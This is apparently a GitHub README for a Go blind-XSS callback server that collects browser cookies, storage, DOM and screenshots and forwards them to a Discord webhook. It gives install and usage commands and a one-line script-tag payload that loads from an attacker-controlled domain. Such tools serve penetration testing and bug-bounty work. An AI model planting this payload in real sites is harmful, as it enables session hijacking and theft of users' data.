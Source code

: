 # BXss - Blind XSS Callback Server

A Go server for Blind XSS testing. Serves a payload on any path and collects browser data (cookies, storage, DOM, screenshot) via callback, sending results to a Discord webhook and saving locally.

## Install

```sh
go install github.com/0xRTH/bxss@latest
```

## Usage

```sh
bxss -webhook https://discord.com/api/webhooks/YOUR_WEBHOOK -domain yourdomain.com -p 8083
```

- `-webhook` (required): Discord webhook URL
- `-domain` (optional): Domain for callback URL (default: localhost)
- `-p` (optional): Port to run the server on (default: 8083)
- `-v` (optional): Verbose logging

## Example Payload

Add this to any page:
```html
<script src="http://yourdomain.com:8083/test"></script>
```

---
MIT License 
